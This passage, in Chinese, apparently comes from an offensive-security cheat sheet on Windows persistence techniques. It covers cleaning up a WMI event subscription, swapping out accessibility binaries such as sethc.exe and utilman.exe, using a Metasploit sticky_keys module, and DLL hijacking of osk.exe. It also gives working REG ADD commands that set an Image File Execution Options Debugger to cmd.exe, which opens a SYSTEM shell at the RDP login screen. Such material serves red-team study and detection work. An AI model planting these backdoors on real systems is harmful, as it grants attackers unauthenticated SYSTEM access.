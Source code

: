 ```ps1
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'WMIPersist'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"
$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```


### 二进制替换

#### Windows XP+上的二进制替换

| 功能       | 可执行文件                            |
| ---------- | ------------------------------------- |
| 粘滞键     | C:\Windows\System32\sethc.exe         |
| 无障碍菜单 | C:\Windows\System32\utilman.exe       |
| 屏幕键盘   | C:\Windows\System32\osk.exe           |
| 放大镜     | C:\Windows\System32\Magnify.exe       |
| 讲述人     | C:\Windows\System32\Narrator.exe      |
| 显示切换器 | C:\Windows\System32\DisplaySwitch.exe |
| 应用切换器 | C:\Windows\System32\AtBroker.exe      |

在Metasploit中：`use post/windows/manage/sticky_keys`

#### Windows 10+上的二进制替换

利用屏幕键盘**osk.exe**可执行文件中的DLL劫持漏洞。

在`C:\Program Files\Common Files\microsoft shared\ink\`目录下创建恶意**HID.dll**文件。


### RDP后门

#### utilman.exe

在登录界面，按下Windows键+U，你将获得一个以SYSTEM权限运行的cmd.exe窗口。

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe

在RDP登录界面多次按F5。

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

